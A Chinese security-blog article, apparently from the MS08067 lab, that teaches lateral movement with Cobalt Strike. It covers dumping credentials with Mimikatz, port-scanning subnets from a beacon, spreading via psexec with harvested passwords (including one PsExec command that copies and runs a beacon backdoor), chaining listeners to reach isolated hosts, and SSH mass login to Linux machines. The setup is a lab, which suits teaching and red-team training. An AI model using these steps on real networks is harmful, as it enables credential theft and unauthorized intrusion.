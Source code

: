 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/XfURtykYIcdxHuAmBybZLw)

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWaicKmo497U2PIqIPcXWRaIt5W2M4yKUrsjLd6cLH9AicVTASDgPy2Z7A08wEzkE0nDuN0OLG33MeibXA/640?wx_fmt=png)

点击上方蓝字关注我哦

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWaicKmo497U2PIqIPcXWRaIt5J9ZibHWTNsxNJ7s45bNHEoTUIJhc0ywUMZjbRy13fmbvqrDuL3Z70ug/640?wx_fmt=png)

  

****出品｜MS08067 实验室****

> 本文作者：**BlackCat**（Ms08067 内网安全小组成员）

BlackCat 微信（欢迎骚扰交流）：

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaicKmo497U2PIqIPcXWRaIt5axwAskE0hw31ju4wfmTGXvEPfPrDWkMDBT7hDUY52pwY000rRwz3rQ/640?wx_fmt=jpeg)  

**前言：**

当获取一台目标服务器权限时，更多是想办法扩大战果，获取目标凭据并横向进行登陆是最快速的拿权方式。但目标所处环境是否可出网，如何利用 CobalStrike 进行批量上线？

**一、获取凭证：**

目标机器 CobalSt rike 上线后，通常先抓取该主机凭据，选择执行 Access->Run Mimikatz，或在 Beacon 中执行 logonpasswords 命令。需要当前会话为管理员权限，才能成功，如果权限低，先提权~

下面的是执行 logonpasswords

图形中是这个。

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaicKmo497U2PIqIPcXWRaIt5icQsofciaBzHOeTt3Lp5iaTNCnlicSLdhlXFCxsFYibia1VBjP2UWVPSAYuQ/640?wx_fmt=jpeg)

  

  

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaicKmo497U2PIqIPcXWRaIt5lR6ycRHxfwePFFLiaICuWQYsyqwzjOwqqZrMFMXtoJmKT6FhW9ibeW8A/640?wx_fmt=jpeg)

  

  

然后查看凭证，Gredentials

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaicKmo497U2PIqIPcXWRaIt5u6VPfFcLlCico4at8Ky2A1a1yAmI3R4KuUdVkyQzgXU2f3eAPicuDO4Q/640?wx_fmt=jpeg)

  

  

但是不是每次都能抓取到明文

**二、目标机出网:**

获取凭据后，需要对目标网段进行端口存活探测，缩小范围。探测方式比较多，本文仅依托 CobalSt rike 本身完成，不借助其他工具。因为是 psexec 传递登录，这里仅需探测 445 端口。（ psexec : 在主机上使 用服务派生会话）

使用 portscan 命令：ip 网段—ports 端口 一扫描协议（arp、icmp、none） 一线程（实战不要过高）。

这里我环境开了一台 03 的虚拟机，地址是 192.168.19.134 看能搜集到探测她的 445 端口

beacon> portscan 192.168.19.0/24 445 arp 200

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaicKmo497U2PIqIPcXWRaIt5609eXW5jGavZN0fW2ibfKneH2fc0h4NWazvelpEcYSD2ZicsJGhJkPZw/640?wx_fmt=jpeg)

  

  

点击工具栏的 V iew->Ta rgets，查看端口探测后的存活主机。

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaicKmo497U2PIqIPcXWRaIt5HBQ8bFTrQaMDL4xicjQUsGCyEdjuro5CXIE9L78jUNCqkSjz6Gk0LJw/640?wx_fmt=jpeg)

  

  

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWaicKmo497U2PIqIPcXWRaIt5obmINsw8iaXFqPbuibrAhKXMd8K0bWU8SR23EqsWWtCpnAez112jVbiaA/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWaicKmo497U2PIqIPcXWRaIt5H1r1KtL2JKqpDKVS3DrJGKDY03Y4HdibPr2Bp2hC2GeibrxGc2q8nKFQ/640?wx_fmt=jpeg)

  

  

然后右键，用之前收集到的凭证去试其他存活主机。如果在一个域中，所有主机的用户名和密码应该都 是一致的。

右键机器:

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaicKmo497U2PIqIPcXWRaIt5eQ9ia7bG8LsxcouUhzjia9cQWEyqBrGAc5TrtNyyl8WScgcDcBT1v1tg/640?wx_fmt=jpeg)

  

  

然后选择之前的获取的账号和密码，明文密文都可以，session 选择之前的控机。

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaicKmo497U2PIqIPcXWRaIt5P65l6f0bMzo8jo4OMekw3ebiae0sypIcfR575VC8kbpBibcYrZnUcAVw/640?wx_fmt=jpeg)

  

  

然后在 beacon 中就可以看到执行的命令。并且这台 03 的机器就会成功的上线

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaicKmo497U2PIqIPcXWRaIt5ZK9lKsDXaicnUpdKX4eZaJtOp6BUQytQLbdGC7vcuURiccSNj5jxj7Ew/640?wx_fmt=jpeg)

  

  

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaicKmo497U2PIqIPcXWRaIt59ibIvaAbDJcqGt7SWhEaZphib3lHicNDmyLfN2nMfa1a1Hn3tuEwvAKVQ/640?wx_fmt=jpeg)

  

  

**三、目标机不出网**

实战中经常会遇到这种情况，获取到目标内网中某台主机的系统权限，但是该主机处在隔离网络中，不能出网。又因为 CobalStrike 服务端是搭建在互联网中的，通过常规方式是无法上线的，这里就需要利用已上线的主机，将它做一个 Listener, 实现链路上线 CobalStrike。

注：此实验只能在 4.0 版本以下进行

环境模拟：

主机 08 服务器：192.168.203.128/24 #不出网

边界服务器：win7 双网卡：192.168.19.132、192.168.203.129

vps：X.X.X.X

win7 和 08 服务器能互相访问，但是 vps 访问不了 08 已有权限 win7, 试验目的，想要 08 系统在 CS 端上线，这里借鉴一下网上的方法，利用 PxExec 来把生成的后门传到不出网机器上，

首先把他们两个放到一个目录下

那么如何放进去呢？CS 自带一个文件浏览器，只不过速度有些慢，可以的话尽量用 webshell 工具，直接上刀上剑放蝎子。。

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaicKmo497U2PIqIPcXWRaIt5BpicQ4BoFu2aYMZ6axRTDOt4ySCvuhrpyMib1ibeOE8h2s6gZicVU9xeOQ/640?wx_fmt=jpeg)

  

  

这里是放到已控机器的同一目录。

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaicKmo497U2PIqIPcXWRaIt5kGDyA0ABtnFTvSicACAyhQU91LKjwPEPI6eeXJibPf1alFgeJDIZfuwA/640?wx_fmt=jpeg)

  

  

然后执行命令:

beacon> shellC:\Windows\Temp\PsExec64.exe-accepteula \\192.168.203.129,192.168.203.128 -uadministrator-pasdqwe123. -d-cC:\Windows\Temp\beacon65.exe

等待上线即可、、

个人觉得这个方法太过麻烦，如果这里用 l cx,ew 等代理攻击进行的话，会更加的省时省力~

**四、Linux 主机 - SSH 批量上线**

第一步还是探测存活主机，然后利用已控的机器进行操作上线。

环境：

CentOS: 192.168.19.139

win7:192.168.19.132

vps :x.x.x.x

通过扫描发现机器：

beacon> portscan 192.168.19.100-150 22 arp 200

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaicKmo497U2PIqIPcXWRaIt5f8z8447t07NwKHsCHlZ9FnXdeIBn2d6xr33FZCxqhCxbwxy6WOkuRg/640?wx_fmt=jpeg)

  

  

然后观看存活主机

然后

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaicKmo497U2PIqIPcXWRaIt5qibdxpAiczEsnj7vcrLAmgH6dX0xZNrhRyLCMk4AGmzLiaGjEDYr0icXlQ/640?wx_fmt=jpeg)

  

  

建议用 ssh-key

密码建议用其他方式去获取，这里爆破的话效率不高输入对的账号密码后

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaicKmo497U2PIqIPcXWRaIt5KwgZWfTXo7t1YYTwsyp88jAT4WExicD4J4Y7beTEOUJGOfMxaLf9UoQ/640?wx_fmt=jpeg)

  

  

然后正常等待上线即可

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaicKmo497U2PIqIPcXWRaIt5EPam1eTKUsoYOhNDghGmoicz2VP4IQpWS2ibLr8cTXpzAWypgOMCqoGA/640?wx_fmt=jpeg)

  

  

成功上线

本文参考：

https://payloads.cn/2020/0105/how-to-penetrate-the-int ranet-in-actual-combat.html

内网小组持续招人，扫描二维码加入我们！

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa9Y7Ac6gb6JZVymJwS3gu8cRey7icGjpsvppvqqhcYo6RXAqJcUwZy3EfeNOkMRS37m0r44MWYIYmg/640?wx_fmt=png)

**扫描下方二维码加入星球学习**

**加入后会邀请你进入内部微信群，内部微信群永久有效！**

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa9Y7Ac6gb6JZVymJwS3gu8cniaUZzJeYAibE3v2VnNlhyC6fSTgtW94Pz51p0TSUl3AtZw0L1bDaAKw/640?wx_fmt=png) ![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa9Y7Ac6gb6JZVymJwS3gu8cT2rJYbRzsO9Q3J9rSltBVzts0O7USfFR8iaFOBwKdibX3hZiadoLRJIibA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWaicBVC2S4ujJibsVHZ8Us607qBMpNj25fCmz9hP5T1yA6cjibXXCOibibSwQmeIebKa74v6MXUgNNuia7Uw/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa9Y7Ac6gb6JZVymJwS3gu8cRey7icGjpsvppvqqhcYo6RXAqJcUwZy3EfeNOkMRS37m0r44MWYIYmg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaicjovru6mibAFRpVqK7ApHAwiaEGVqXtvB1YQahibp6eTIiaiap2SZPer1QXsKbNUNbnRbiaR4djJibmXAfQ/640?wx_fmt=jpeg) ![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWaicJ39cBtzvcja8GibNMw6y6Amq7es7u8A8UcVds7Mpib8Tzu753K7IZ1WdZ66fDianO2evbG0lEAlJkg/640?wx_fmt=png)  

**目前 35000 + 人已关注加入我们**

![](https://mmbiz.qpic.cn/mmbiz_gif/XWPpvP3nWa9FwrfJTzPRIyROZ2xwWyk6xuUY59uvYPCLokCc6iarKrkOWlEibeRI9DpFmlyNqA2OEuQhyaeYXzrw/640?wx_fmt=gif)